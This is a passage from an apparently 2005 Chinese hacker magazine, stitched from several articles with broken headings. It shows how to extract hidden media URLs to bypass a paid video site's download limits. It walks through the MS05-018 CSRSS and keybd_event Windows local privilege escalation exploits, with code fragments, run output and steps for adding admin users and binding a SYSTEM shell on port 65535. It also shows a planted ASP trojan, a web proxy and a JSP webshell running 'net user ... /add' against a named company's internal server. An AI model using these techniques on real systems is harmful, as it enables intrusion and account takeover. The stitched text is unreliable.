另外，还要确定自己手机带有浏览器，不然是无法下载的。如我用老爸的联想 E301 就下载不了，开始还以为方法有错。但看了说明书后才知道 NOKIA 的带有浏览器，但联想的没有。

图6 用 TT 打开铃声下载页面  
图7 查看源文件

手机是否带有浏览器除了看说明书和到网上找资料外，还可以用 GPRS 访问一个图文并茂的 WAP 网站，如 wap.sohu.com，如果手机上看得到图就说明有浏览器，只看得到文字就没带浏览器。这是我用实践经验对比总结出来的方法，应该比较准确。

## 后记

本文到此本应该结束了，但我有一个朋友是网易的技术人员，这么重大的问题不告诉他总不太好吧，于是我就把相关问题告诉了他。第 2 天他就把洞洞补上了，速度可真够快的啊，但我同时发现好像 TOM 等各大网站也补了，只不过有的补得比较好，有的只在发送具体某个图片的页面不给看图片真实地址，但在主页面浏览时还可以看到，有的看源文件就可以了。是不是各大公司的人都通了气的呢？我们来看看他们是怎么屏蔽我们看图片的真实地址的吧。

既然我是告诉网易的，那就看网易是怎么实现的吧。来到一个发送图片的页面，我们查看源文件，发现了这么一句：

```html
<TABLE STYLE="border-collapse: collapse; background-image: url(http://mmsimg.163.com/new-web/loaditem.sp?type=1/path=/mms/zogw/1105072211187_8814/128x128.gif); background-repeat:no-repeat; background-position: center center;" BORDER="0" CELLSPACING="0" CELLPADDING="0">
  <TR><TD>
    
  </TD></TR>
</TABLE>
```

显然，是通过 `background-image: url` 来连接真实地址，而我们用右键看到的地址是 `http://mmsimg.163.com/new-web/images/`

# 10月 O版黑客

……（上半部分为两栏正文，主要讨论通过 WAP/移动方式获取下载真实地址、JSP 下载与 URL 解析等技术内容）

现在我们当然不能连接这个服务信息，来看看这个服务信息的详情吧……（续正文）

## 突破电影下载限制

在我所喜爱的为数不多的动漫里，《猫眼三姐妹》是我最喜欢的一部了……（描述在线点播站点、下载限制与破解思路）

```javascript
<SCRIPT language=javascript>
<!--
var Words=
"%3Cframeset%20border%3D%220%22%20frameborder%3D%220%22%20framespacing%3D%220%22%20rows%3D%22*%22%3E..."
function SetNewWords(){
  var NewWords;
  NewWords = unescape(Words);
}
// -->
</SCRIPT>
```

```html
...document.write(NewWords)...
SetNewWords();
// -->
</SCRIPT>
```

哈哈，unescape 加密这个难不到我，找个工具出来，解密后是这样：

```html
<frameset border="0" frameborder="0" framespacing="0" rows="*">
  <noframes></noframes>
  <frame frameborder="NO" marginwidth="0" name="uuopenframe" noresize src="ud2t3d86.asp?film1=9792&film2=1878" scrolling="auto">
</frameset>
```

我们要的是“ud2t3d86.asp?film1=9792&film2=1878”。同上，我们马上去访问这个地址“http://www.slvod.com/vod/ud2t3d86.asp?film1=9792&film2=1878”，咦？怎么显示无法播放了呢？

后来我发现其实在最初点击在线播放时抓包也能获得这个地址，只是相对要烦琐些。感觉走了弯路啊，5555……本来此事到这里已经达到我的目的了，但是我想不通为什么用最初的方法不行呢？哪里出了问题？

经过反复尝试，发现是把图1所示的那个在线观看页面关掉了导致无法播放。由于在线观看也是需要密码的，在我们登录后就会获得 Cookies，服务器会根据这个来辨别是否为会员。把原来的页面关掉就与服务器断开连接了，所以我们在做这些前同时始终要保持登录一个页面才行。

```html
<p align="center">
<object id="player" name="player" ...>
  <param name="SRC" value="govodurl.asp?urlid=9792&amp;serverip=2">
  ...
</object>
```

源代码中下面还有段和这段差不多的代码，“`<param name="SRC" value="govodurl.asp?urlid=9792&amp;serverip=2">`”这个我们得注意。

后来我把“http://www.slvod.com/vod/ud2t3d86.asp?film1=9792&film2=1878”的页面下载下来，把“govodurl.asp?urlid=9792&amp;serverip=2”做成本机上 RM 文件的地址竟然可以播放（前提是本机安装了 RealOne Player 或 RealPlayer）。那么这就证明了请求到“`<param name='SRC' value='govodurl.asp?urlid=9792&amp;serverip=2'>`”中的 value 值处，问题是 value 值的处理问题。

```html
<A href="javascript:MM_openBrWindow('look.asp?id1=9792&amp;id2=1878','media','resizable=yes,width=439,height=359')">[4]</A>
```

要是我能早发现这个和图2链接处显示的差异也就没这么多的麻烦了。

但是郁闷的事接踵而来，当我访问“http://www.slvod.com/vod/govodurl.asp?urlid=9792&serverip=2”时显示该页无法连接。又打开“http://www.slvod.com/vod/ud2t3d86.asp?film1=9792&film2=1878”开始在线播放，但是还是打不开，于是我想是不是因为服务器做了限制不准同一 IP 多线程连接？如果真是这样就麻烦了。

## 10月 新问题继续看 哇呀军事研究

```html
<p align="center">
<object id="player" name="player" classid="clsid:CFDCAA03-8BE4-11cf-B84B-0020AFBBCCFA" width="373" height="292">
  <param name="_ExtentX" value="9869">
  <param name="_ExtentY" value="7726">
  <param name="AUTOSTART" value="-1">
  <param name="SHUFFLE" value="0">
  <param name="PREFETCH" value="0">
  <param name="NOLABELS" value="-1">
  <param name="SRC" value="http://www.slvod.com/vod/govodurl.asp?urlid=9792&serverip=2">
  <param name="CONTROLS" value="imagewindow">
  <param name="CONSOLE" value="clip1">
  <param name="LOOP" value="0">
  <param name="NUMLOOP" value="0">
  <param name="CENTER" value="0">
  <param name="MAINTAINASPECT" value="0">
  <param name="BACKGROUNDCOLOR" value="#000000">
</object>
```

开一个新的页面 Cookies 可能会发生改变，要是我能让其自动下载呢？试试用到这个代码：

```html
</object>
<SCRIPT language=JavaScript>
<!--
setTimeout("window.open('http://www.slvod.com/vod/govodurl.asp?urlid=9792&serverip=2')",3000);
//-->
</SCRIPT>
```

我把它加到 1.htm 中去，然后打开“http://www.slvod.com/vod/ud2t3d86.asp?film1=9792&film2=1878”，再打开 1.htm。3 秒钟后，弹出一个新的窗口和图5一样，而且屡试不爽啊！

> 【本文所涉及的 WSockExpert 在光盘中有收录】  
> 编辑点评：如果大家觉得本文突破了下载限制，但却无法实现多线程下载太慢的话，可以使用下载工具提供的代理服务选项，通过代理实现多线程下载。

我在打开网站上的播放页面时，又打开这个本地提交的页面（同时播放），在它的地址栏上输入：“http://www.slvod.com/vod/govodurl.asp?urlid=9792&serverip=2”出现如图5所示的页面。哈哈这个真实地址出来喽，原以为成功了，结果它却经受不起党的考验！我用这个方法时，这个页面无法显示。

小编对微软一直心存感激，因为我觉得它很照顾我们。为给我们解闷，它抖出了一个又一个的漏洞来引诱我们，当然为了配合微软的关爱，我们也乐得天天找资料、写代码……

## MS05018——CSRSS.EXE 漏洞

Iceskys [IST]

### 溢出分析和最终利用

刚刚遭遇 MS05039 漏洞的疯狂洗礼，我们躁动的心也渐渐平静。微软不过总给人惊喜，经历漫长地等待，MS05018 漏洞终于可以利用了，用它可以做些什么呢？这篇文章和你一起分析漏洞的产生原因以及 EXP 的构造和最终的利用，走来看看……

- Microsoft Windows 2000 SP4
- Microsoft Windows 2000 SP3
- Microsoft Windows XP SP2
- Microsoft Windows XP SP1
- Microsoft Windows XP 64-bit Edition SP1
- Microsoft Windows XP 64-Bit Edition 2003 版（Itanium）
- Microsoft Server 2003 for Itanium-based Systems
- Microsoft Server 2003

**不受影响系统：**

- Microsoft Windows XP Professional x64 Edition
- Microsoft Server 2003 x64 Edition
- Microsoft Server 2003 SP1 for Itanium-based Systems
- Microsoft Server 2003 Service Pack 1

Windows 内核是操作系统核心部分，提供系统级别服务，如设备和内存管理、分配处理器时间和管理错误处理。Win32 API 在实现命令行和其它基于字符的用户界面时使用控制台窗口。

实现上述功能的特定代码位于 CSRSS.EXE 系统进程中。CSRSS.EXE 进程中的 WINSRV.DLL 文件创建并管理控制台窗口。如果用户从控制台窗口的系统菜单中选择了“属性”选项的话，包含有控制台窗口信息的数据结构就被拷贝到了文件映射的对象。该数据结构被称为 CONSOLE_STATE_INFO，结构如下：

```c
typedef struct _CONSOLE_STATE_INFO {
  /* 0x00 */ DWORD cbSize;
  /* 0x04 */ COORD ScreenBufferSize;
  /* 0x08 */ COORD WindowSize;
  /* 0x0c */ POINT WindowPosition;
  /* 0x14 */ COORD FontSize;
  /* 0x18 */ DWORD FontFamily;
  /* 0x1c */ DWORD FontWeight;
  /* 0x20 */ WCHAR FaceName[32];
  /* 0x60 */ DWORD CursorSize;
  /* 0x64 */ BOOL FullScreen;
  /* 0x68 */ BOOL QuickEdit;
  /* 0x6c */ BOOL DefaultWindowPos;
  /* 0x70 */ BOOL InsertMode;
  /* 0x74 */ WORD ScreenColors;
  /* 0x76 */ WORD PopupColors;
  /* 0x78 */ BOOL HistoryNoDup;
  /* 0x7c */ DWORD HistoryBufferSize;
  /* 0x80 */ DWORD NumberOfHistoryBuffers;
  /* 0x84 */ COLORREF ColorTable[16];
  /* 0xc4 */ DWORD CodePage;
  /* 0xc8 */ DWORD hwnd;
} CONSOLE_STATE_INFO;
```## 三、Exploit 构造分析

```c
/* 0xec */ WCHAR ConsoleTitle[2]
} CONSOLE_STATE_INFO, *PCONSOLE_STATE_INFO;
```

该结构中的值被传送到了 WINSRV.DLL 中的代码，但该代码没有正确验证数据。攻击者可以发送全部为 0 的 CONSOLE_STATE_INFO，就可以导致 CSRSS 进程终止和系统崩溃（蓝屏），这个损人不利己的事情当然也是有利用价值的。我们不加以利用。另外，还要注意到，这个 CONSOLE_STATE_INFO 数据结构中还包含有指定字体名称的字符串 FaceName[32]，该字符串通过 wcscpy() 函数拷贝到了固定大小的栈缓冲区，但没有任何检查，如下所示：

```c
0x5FFB39DF push [ebp+lpFaceName]
0x5FFB39E2 lea eax, [ebp-54h]
0x5FFB39E5 push eax
0x5FFB39E6 call _lwcscpy
```

攻击者可以通过提供大于 32 个字节的字符串触发栈溢出，这样就可以完全控制计算机，执行任意代码。这就是我们今天要详细说明的漏洞，我会结合漏洞利用代码分析利用思路和 Exploit 的构造方式。OK？一起来吧……

- 1. CSRSS 进程比较特殊，普通调试器无法调试，必须用内核调试器。
- 2. 普通 shellcode 无法在 CSRSS 进程内运行，因为该进程的 PEB 里的初始化模块列表跟普通进程不一样，普通 shellcode 无法从它的 PEB 里获取 kernel32.dll 的基址。
- 3. 在 CSRSS 进程里无法创建新进程，普通的依赖创建 CMD.EXE 进程的 shellcode 无法正常运行。

这就给这个漏洞的利用带来许多困难，也一直没有好的可行 EXP。直到今天，我最先是在安全焦点论坛看到这个漏洞的利用 Exploit，是 evas 写的，我也就拿这个 EXP 来分析利用过程，下面结合主要代码加以说明。

```c
typedef struct _CONSOLE_STATE_INFO {
 /* 0x00 */ DWORD cbSize;
 /* 0x04 */ COORD ScreenBufferSize;
 /* 0x08 */ COORD WindowSize;
 /* 0x0c */ POINT WindowPosition;
 /* 0x14 */ COORD FontSize;
 /* 0x18 */ DWORD FontFamily;
 /* 0x1c */ DWORD FontWeight;
 /* 0x20 */ WCHAR FaceName[0x20];
} CONSOLE_STATE_INFO, *PCONSOLE_STATE_INFO;
```

就是定义我们上面说的、漏洞产生的那个叫 CONSOLE_STATE_INFO 的结构体。我们在下面就是构造这个结构体加以利用的。接着是定义另外一个结构 address_and_cmd 如下：

```c
typedef struct xxx {
 DWORD dw[6];
 char cmd[0x50];
} address_and_cmd;
```

这个是一会儿要用来保存地址和 CMD 命令的。接下来是一大堆十六进制数据，主要就是定义一个 user，名字为 a，password 为 asd#321。接着是一个找 JMP ESP 地址的函数 `DWORD search_jmpesp()`，用来搜寻 jmp esp 的地址，函数返回寻找的地址值，具体代码自己看，以后也可以直接使用；接下来用一个函数 `BOOL make_shellcode(DWORD dwTargetPid)` 来构造 shellcode，需要参数，返回一个布尔值标志是否成功。

```c
hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
pe.dwSize = sizeof(PROCESSENTRY32);
Process32First(hSnapshot, &pe);
do {
    ...
    if (!strcmpi(pe.szExeFile, "WINLOGON.EXE") == 0) {
        printf("[+] PID=%d Process=%s\n", pe.th32ProcessID, pe.szExeFile);
    }
} while(Process32Next(hSnapshot, &pe)==TRUE);
CloseHandle(hSnapshot);
```

讲解一下：先用 CreateToolhelp32Snapshot 函数给进程照快照，然后用 Process32First 取得第一个进程，再用 Process32Next 依次取下一个，直到获得进程名和进程号（PID）。然后用 FreeConsole() 释放控制台，不成功就输出 `[-] FreeConsole failed`，并用 GetLastError() 取得错误原因；成功就输出 `[+] FreeConsole ok`。接着用 AllocConsole 函数为当前进程建立控制台，失败输出 `[-] AllocConsole failed` 并用 GetLastError() 取错误原因，成功就输出 `[+] AllocConsole ok`。再用 GetConsoleTitle 获取控制台窗口标题，成功则提示 `[+] Get Console Title OK`，否则提示 `[-] Get Console Title failed`；接着用 `FindWindow("ConsoleWindowClass", szConsoleTitle)` 搜索上面获得的控制台，把返回值给 hwnd，通过判断 hwnd 值判断是否成功，成功的话输出 `bingo! found hwnd`，不然输出 `[-] can't found hwnd!`。现在 PID 和 hwnd 都有了，就可以用 exploit() 函数来做了，我们按这个思路来看 exploit() 函数是怎么实现的。

`void exploit(HWND hwnd, DWORD dwPid)` 有上面这 2 个参数，在过程中调用一个 `search_jmpesp` 函数来寻找 jmp esp 的地址，然后用 `make_shellcode()` 构造 shellcode，再用 memcpy 开始拷贝数据进行溢出，并输出 `[+] Send Exploit!` 的成功提示。最后，如果成功就输出 `[+] OK, It is Done`。

```text
MS05-018 windows CSRSS.EXE Stack Overflow exp v1.0
Affect: Windows 2000 sp3/sp4 (all language)
code by evas <evas at xfocus.org> ==> http://www.xfocus.net
compile by iceskysl ==> www.iceskysl.net

Usage: ms05018 pid

[+] PID=640 Process=WINLOGON.EXE
[+] FreeConsole ok.
[+] AllocConsole ok
[+] Get Console Title OK
[+] bingo! found hwnd=...
[+] start search [FFE4(jmp esp) in %x SZDLL]
[+] found [FF E4(jmp esp) in %x]
[+] CreateFileMapping OK
[+] MapViewOfFile OK
[+] Send Exploit!
[+] OK,It is Done.
```

## 三、实例利用及解析

看到最后的 `OK, It's Done` 就说明成功了，不然在中间任何一步出错都会有提示信息。

把上面的这个 EXP 用 VC++ 编译可以得到可执行文件 EXE，我这里起的名字是 MS05018.EXE，那么我们就可以直接用了。在利用之前，我们先说下这个 EXP 利用的条件，在以下几种环境中都可以利用：

- 1. 物理控制台登录
- 2. 终端登录
- 3. webshell
- 4. telnet

我们下面以物理控制台为例加以验证和实验。我在 Windows 2000 Server SP4 环境下，先添加一个普通用户 ysl，注销后用 ysl 登录系统，打开 CMD，切换到 ms05018.exe 所在路径下。尽管我添加时指定的 ysl 是普通用户，我们还是先看看我的权限是不是普通用户。你可以找一个叫 whoami 的小软件看，我懒得去找，就直接添加用户来实验：要是能添加就说明帐号是管理员权限，要是发生拒绝访问就是普通权限。OK，直接用 `net user ice /add` 试着添加用户 ice，如图 1 所示。


可以看到是“系统发生 5 错误，拒绝访问”，也就是说权限不够，加不了用户。这就说明我现在的权限不是管理员权限。现在我们运行 ms05018.exe，如图 2 所示。


看到 winlogon.exe 这个进程的 PID 是 224，下面接着用 `ms05018 224` 来试着溢出。本来想抓一个图给大家看，无奈回车后一个黑窗口闪了一下就消失了，还把我们开始的这个 CMD 窗口一起关闭了，程序运行太快，抓不到图。你自己实验的时候可以感受到还蛮好玩的。既然把 CMD 关掉了，那就再打开一个看看，按前面的分析看看有没有多出一个用户名为 e 的用户来，`net user` 看下如图 3 所示。


果然增加了一个名字为 e 的用户。我们再来看看 e 的权限如何，`net user e` 直接可以看到，如图 4 所示。


怎么样，是 Administrator 权限吧？我们再看看我们自己的帐号 ysl 的权限有没有变化。按讲是不会变化的，应该还是普通权限。那我们试试能不能删掉刚刚的帐号，要是可以就说明权限变化了，要是依然拒绝访问则说明权限没变化。我们试着把 e 删掉，如图 5 所示。


清楚地看到依然是系统发生 5 错误，也就是权限不够。那我们还是普通用户，但是我们上面知道了，我们溢出增加的那个用户 e 是管理员权限。注销后用 e 登录就是管理员了，目的达到，终于成功了！

从公告中看到受影响的系统有 Windows 2000、Windows XP 和 Windows 2003，但是实际上我只在 Windows 2000 SP4 下实验成功了，在 Windows XP SP2 下没成功：一输入 `ms05018 PID` 就立刻死机，然后自动重启，启动后系统提示“CSRSS.EXE 发生严重错误，要不要发送报告”。我实验 N 次都是这样，得出结论：在 XP 下不能溢出成功，只能使系统崩溃重启。不晓得是溢出点定位问题还是别的，有待继续研究……在 Windows 2000 下是每次都成功；没有 Windows 2003 环境，也没实验，有环境的朋友可以自己实验下。

关于这个漏洞的利用，方法多多，途径多多，场合也多多，如何发挥，仁者见仁，智者见智了，偶就不多啰嗦了。

## 四、修补和措施

还是说下防范吧，补丁已经出来了，打上补丁就 OK 了。要是您不能立刻安装补丁或者升级，建议您采取以下措施以降低威胁：创建如下注册表键：

`HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\System`

添加名为 `DisableCMD` 的 DWORD，将值设置为 1（禁用命令行提示和批处理文件），或设置为 2（禁用命令行提示但允许批处理文件）即可。

> 【文章中利用的 ms05018.cpp 和 ms05018.exe 已收录在本期光盘中】

# 让微软头疼的漏洞——Microsoft Windows 键盘事件权限提升漏洞

IceSkys [IST]

刚刚放了 MS05-018 这个漏洞的分析，一朋友在 QQ 上问我知不知道前些时间出的那个 Microsoft Windows keybd_event validation vulnerability 漏洞的利用方法。朋友说的应该就是国内翻译的“Microsoft Windows 键盘事件权限提升漏洞”。跑到绿盟去看漏洞公告，不看不知道，一看还真吓一跳，先看下它影响的系统，如下：

- 受影响系统：
- Microsoft Windows XP SP2
- Microsoft Windows XP SP1
- Microsoft Windows XP
- Microsoft Windows Server 2003 SP1
- Microsoft Windows Server 2003
- Microsoft Windows 2000 SP4
- Microsoft Windows 2000 SP3
- Microsoft Windows 2000 SP2
- Microsoft Windows 2000 SP1
- Microsoft Windows 2000
- Microsoft Windows

从 Windows 2000 到 Windows XP，再到 Windows 2003，不论是 SP1 还是 SP4，谁都没有漏掉。我还注意到最后一行写的是 Microsoft Windows，是否暗示着所有 Microsoft Windows 都被影响呢？呵呵，大家自己揣摩。但是无论如何，这个漏洞影响之大、范围之广是肯定的，具体能不能利用，一会儿就知道了……

这里就不具体分析了，免得有人看着代码就怕，有兴趣的可以找光盘看看。我们接着说最受欢迎的部分。本漏洞有两个程序，第一个程序在一定程度上有些 BUG，只能在 2000 下执行成功；第二个却得到了非常好的改良，可以自动获取 PID 的值、可以自定义端口等功能。好吧，下面就来看看两个程序的测试手记吧。

## 二、漏洞最终利用实例解析

在说利用之前，还是大概说下这个漏洞的利用方式：这个主要是本地溢出用来提升权限的，也就是当你的权限被限制的时候，可以用这个来提升权限。具体怎么用，接着看……


图1

OK，现在我们以 ice 这个用户来打开 CMD，直接在刚才的 CMD 里输入：`runas /user:ice`，回车看到图 2。


图2

输入 ice 的密码 123 回车，就看到以 ice 权限运行的 CMD 了，如图 3 所示。


图3


图4

## 一、漏洞产生原因和利用设想

Windows 中存在权限提升漏洞，起因是桌面应用程序处理通过 keybd_event() 函数发送的键盘事件时存在设计错误。在当前的 Microsoft 安全模型中，共享桌面的应用程序之间可以发送消息，每个桌面应用程序都可以处理同一桌面中执行的每个进程，而任何应用程序都可以通过发送键盘敲击动作模拟虚拟按键，这就允许每个进程都像交互用户那样发送消息和击键动作。因此，攻击者可以通过向更高权限运行的桌面应用程序（如 explorer.exe）发送恶意键盘事件，导致以目标用户权限执行任意代码。这就是漏洞产生的原因和主要利用设想了，具体怎么做，还是要借助程序来实现。

## 三、Exploit 的构造和编译

我自己的功底还不够，写不出像样的 EXP，就只能看别人写的。我看到这个漏洞公告后，在下面跟了一个简易 EXP，还有写这个 EXP 的作者。我直接去作者网站上找到了修正后的 EXP。EXP 写出来再去看就不觉得很难了，这个 EXP 也是一样的。在这个 EXP 里是溢出后直接绑定一个 65535 的端口，直接连上去就是系统权限。代码写得比较乱，我把代码整理后放在光盘了。

# 10月：新闻综述看黑客剖析

```text
C:\tools>keybd_event.exe
#Microsoft Windows keybd_event validation vulnerability...
#Local privilege elevation overflow exp v1.0
#Affect: Windows 2000 WindowsXP Windows 2003
#Coded by Andres Tarasco (...)
#Compile by Iceskysl [IST] (...)
Usage: keybd_event.exe pid of explorer.exe
```

可以看到，我们需要那个 explorer.exe 桌面进程的 PID 值，可以直接运行 pulist.exe 列出所有进程并查找 EXPLORER.EXE 的 PID 值，如图 5 所示。


看到了 EXPLORER.EXE 进程的 PID 值是 1372，当然你也可以使用自动查找功能。得到这个 EXPLORER.EXE 进程的 PID 是 1372 后，再直接使用 `keybd_event.exe 1372`，回车后会弹出一个错误窗口提示程序不能运行，点击确定后弹出一个“运行”程序选择窗口，选择我们的 keybd_event.exe 程序，如图 6 所示。


打开后会再弹出一个窗口，在这个窗口中运行的就是那个 keybd_event.exe 程序，如图 7 所示。


好，看来差不多了，来看看是不是有一个 65535 端口打开了，估计有就离成功不远了。如图 8 那样，用 `netstat -an` 查看。


可以用 NC，或者直接用 `telnet 127.0.0.1 65535`，回车后就能得到如图 9 所示的窗口。成功得到 SHELL，来看这个窗口中的权限是否是系统权限：加个用户 hello，再提升他为管理员试试，如图 10 所示。


看到都提示成功了，这就说明我们在这个窗口中的权限是系统权限，目的顺利达到了。补充一点是在得到这个 SHELL 里，我们输入内容在回车前不会回显，只要输入正确即可执行。这个 keybd_event.exe 利用程序只在 2000 系统上测试成功，在 XP 下测试不成功。后文介绍了改良版本可在 XP/2003/2000 使用，且可自动获取 PID，无需借助额外工具。

随后作者在 XP 系统中继续测试：先在 CMD 下运行 WHOAMI 查看权限，再以普通用户运行命令，执行改良程序后获得结果。该程序可直接添加用户，适合在已有 ASPX SHELL 的场景下使用。最后说明了当存在多个 explorer.exe 进程时可能需要运行两次：第一次可能弹出“运行”窗口，第二次弹出 CMD 窗口才算成功。好了，我们用 net user 来看是否成功吧（图15）：显示 999 这个用户已经成功添加了。我们要把他提升为管理员，同样是用这个程序：`keybd_fix.exe "net localgroup administrators 999 /add"`，如图16所示。

现在我已经把 999 这个用户提升为管理员了。到此步时，相信很多人都会想到 ASP 木马加此改良后的程序来提权，这个思路是可以的。但你们不要忘记了，ASP 木马默认的 CMD 执行命令是 GUEST 用户，而不是 USER 用户。但值得一提的是 ASPX 是默认 USER 用户，那么就可以结合此改良后的 MS-KEY 程序提权了。好了，现在已经提权了，来看看是不是真正提权了，用 `net user 999` 查看（当然也可以用上面提到的 WHOAMI 来看），得到下面的图17。

以上是提权的利用，那我们再来看看它的自动开放端口功能吧。运行 `keybd_fix.exe "H:\keybd_fix.exe -l 65535"` 得到图18所示的界面。同样也是运行两次，跳出的窗口不能关，否则不能 NC 或者 TELNET 上去。`keybd_fix.exe "H:\keybd_fix.exe -l 65535"` 这个命令中要注意，引号里面的是 keybd_fix.exe 的绝对路径，后面的参数 `-l 65535` 不用改，默认是开 65535，当然，你也可以把这个端口改为别的端口，改哪些端口，自己决定吧。好，下面来看一下，是否已经开放了（图19）：看到了没有，已经开放了 65535。再用 NC 来连下，是否已经得到了一个 SHELL 了，如图20所示。

我们已经连上了。好了，漏洞利用完了，感觉如何，是不是并不难啊，只要用心分析，任何事情都不难的，加油哦！我再说说防范吧……

## 四、攻击的防范

其实我们都知道这个漏洞是不好修补的，在 Windows 系统中，桌面进程是不能去掉的，那也是很难修复的，至少现在还没有给出官方的补丁，请大家注意关注最新补丁。我们只能临时采用下列措施以降低威胁：

- 仅允许可信任的应用程序运行为可访问桌面的服务；
- 不要在非信任环境中使用 runas 服务。

大家也知道这个是不好实现的，还是慢慢等补丁吧。至于在补丁出来前，怎么用这个漏洞，则仁者见仁，智者见智吧！

> 【文字里涉及到的相关代码 keybd_event.cpp 和编译好的两个漏洞利用工具 keybd_event.exe、keybd_fix.exe 及 whoami.exe 都已收录在本期光盘】

> 【编辑点评】阅读这篇文章时感觉好奇怪，总是联想到 MS03-025 提到过的 Windows 系统权限提升漏洞，这两个漏洞从外观上看起来好像是双胞胎，不过究竟实质是否一样，溢出原理还是自己比较吧。

# 10月 西线无战事黑客手册

国庆国庆，又到国庆；西线西线，又见战事。国庆节长假里买黑客手册，细读西线无战事栏目，岂不是人生一大快事？本期的文章，Web injection 技巧中从妙用 web 脚本代理提升权限至跨站的出人意料的手法都有可读之处，系统入侵攻防中难得一见的路由器入侵手法、入侵有目标的个人电脑，相信大家都会有兴趣。至于更多的好文，尽在手册里了，尽情翻阅吧……

## WEB 脚本代理的妙用

可能很多人还不是很了解我所说的 Web 脚本代理是什么概念。Web 脚本代理就是在服务器上放一个 asp 或 php 等的动态脚本，然后调用这个脚本去访问别的网站，那么该访问网站显示你来访的 IP 就是服务器的 IP。4ngel 的 phpspy 后门和 Marcos 的 aspadmin 站长助手这两个 webshell 都集成了这个功能。无论是 php 还是 asp 的脚本代理其实都是调用了 xmlhttp 这一组件，将远程网站的数据用你所放 webshell 的服务器来进行一次中转，然后再将内容呈现给你而已。很多程序员都用这个原理来写一些小偷程序，像在网站上只放几个脚本文件就可以调用别的网站数据。如果我们把它用在黑客攻击上，那能用它来做什么呢？我恰好用它来做了一点小事，就是提升权限和内网入侵。

## 一、提升权限

这应当是一个特例，不过确确实实被我碰到了。我在一个被入侵的网站上放了一个海阳顶端网 ASP 木马。这个网站是一个公司的独立服务器，所以目录权限并没有像虚拟主机设置得那样变态，几乎所有目录都有可写权限，wscript.shell 等命令也能运行。不过也正是因为是公司的独立服务器，所以也没有装 serv-u 这样容易提权的软件，还没有额外的第三方服务软件，系统补丁打得也很快，提权还是比较困难的。替换服务是一个可行的办法，不过需要时间等待。

经过仔细查看，得知了一些有用信息。该服务器是 IIS+ASP+ACCESS 搭配的 Web 服务器，装有防火墙，对外只开放了 80 端口。另外，还装有了一个 apache+tomcat+jsp 的内部 Web 系统，开放的是 8080 端口，内部 Web 系统的物理目录也查明是 `C:\ApacheGroup\Tomcat 5.0\server\webapps`。这也是我以前装过 apache+tomcat+jsp，凭经验判断出来的。通过在海阳顶端里运行 netstat -an 和用海阳顶端 ASP 木马的查看服务选项及目录信息能够了解到这 3 点，如图1～3所示。另外使用 ipconfig/all 命令，可以明确知道图1中显示的 10.0.16.16 这一内网 IP，的确就是该服务器的内网 IP。

信息有了，提权思路也就来了。如果我能绕过防火墙，直接访问它内网的 Web 系统 `http://10.0.16.16:8080`，那么我就可以先用海阳顶端 ASP 木马传一个 jsp 的 webshell 到它的物理目录 `C:\ApacheGroup\Tomcat 5.0\server\webapps`，然后再调用这个 jsp 的 webshell 了。它的 tomcat 是以服务的形式安装的，jsp 一般是继承了其系统权限。开始我以为好办，就直接用 htran.exe 这个工具将其 8080 端口转到外网。结果令我很失望，端口是转出来了，不过还是访问不了它的 jsp 系统，不知是什么原因。

冥思苦想中，突然想到了“解决办法”：传一个 ASP 脚本代理到它的网站，调用这个脚本代理去访问它内网的 jsp web 系统不就可以了吗？它的内网 Web 和外网 Web 都在同一服务器上，用脚本代理去访问绕过防火墙是根本不成问题的，因为这个脚本代理会让内网 Web 系统误认为是同一台机器在访问它。我手头上有一个 Marcos 写的 WebProxy.asp 脚本，就是起代理作用的。于是将其改名为 imgac.asp，并传到外网 ASP 系统的某个目录，先来看看它的效果：提交  
`http://www.g****.com/uploadimages/image.asp?url=http://www.haiyang.net/safcty/ip.asp`，效果如图4所示。可以看到我的访问 IP 的确变成了 www.g****.com 该服务器的 IP 了。

```asp
ip-><%=response.write Request.ServerVariables("Remote_Addr")%>->port
<%response.write Request.ServerVariables("REMOTE_PORT")%>
actfor->
<% response.write Request.ServerVariables("HTTP_X_FORWARDED_FOR")%>
```

好，脚本代理没有 bug，那么再写一个 jsp 的 webshell 传到内网 jsp web 系统的物理目录下吧。jsp 的 webshell 我写得很简单，就是一个直接运行命令加用户的小脚本 tlist.jsp，代码如下：

```jsp
<%@page import="java.io.*,java.util.*,java.net.*" %>
<%
  try {
    String cmd = "cmd.exe /c net user tcx tcx /add";
    Process child = Runtime.getRuntime().exec(cmd);
    InputStream in = child.getInputStream();
    int c;
    while ((c = in.read()) != -1) {
      out.print((char)c);
    }
    in.close();
    try {
      child.waitFor();
    } catch (InterruptedException e) {
      e.printStackTrace();
    }
  } catch (IOException e) {
    System.err.println(e);
  }
%>
```

也许会有人问，那为什么不采用现成一些 jsp 木马呢。开始我还尝试过了，因为用的这个 WebProxy.asp 方法只能直接跟一个 url 文件，url 文件里的一些 post 参数并不起作用，现成的 jsp 木马写得都有点复杂，功能也多，因此一些命令不可避免地要运用到一些参数。

我把这个 tlist.jsp 传到了内网 Web 的物理目录下，然后直接运行  
`http://www.generalichina.com/uploadimages/image.asp?url=http://10.0.16.16:8080/manager/tlist.jsp`  
就在服务器上成功加了一个 id 为 lcx 的用户！如果要运行木马的话，你只要把 tlist.jsp 里的 `String cmd="cmd.exe /c net user lcx lcx /add";` 这句改动一下就可以了。接着传了一个 tlist.exe 到服务端的系统目录底下，然后改为 `String cmd = "tlist.exe";`，运行上述 url，效果如图5所示。

## 二、入侵内网及其它妙用

入侵内网，在提升权限的第一个例子里其实已经很明确了，如果那台机器的内网 Web 站点与外网是同一台机器的话，做法都是一样的。不过没有内外网在同一台机器上方便而已，这也算是脚本入侵内网的一个思路吧，实际意义不是很大，聊胜于无。

其实妙用是什么呢？如果你在学校内网里，只能上内网和访问学校的 Web 服务器，学校的 Web 服务器与外网又是相通的，那你在 Web 服务器放一个 WebProxy.asp 或其它脚本代理，是不是你在内网访问  
`http://学校的web服务器/WebProxy.asp?url=http://www.163.net/index.html`  
就可以上外网了呢？

> 【本文提到的脚本代理 WebProxy.asp 已收录在本期光盘】

在实际操作过程中要注意一点，如果你用 tlist.asp 运行了一次命令的话，想改下代码运行其它的程序就要把 tlist.asp 改一次名，要不然还是会显示上一次执行的结果。另外，不知是此台服务器特殊还是其它的原因，把木马放在非系统目录（如 `c:\muma.exe`），然后修改 `String cmd="cmd.exe /c net user lcx lcx /add";` 为 `String cmd="c:\\muma.exe";`，木马并没有运行。只有放到 system32 下才成功运行了，这个原因我现在也不是很明确。

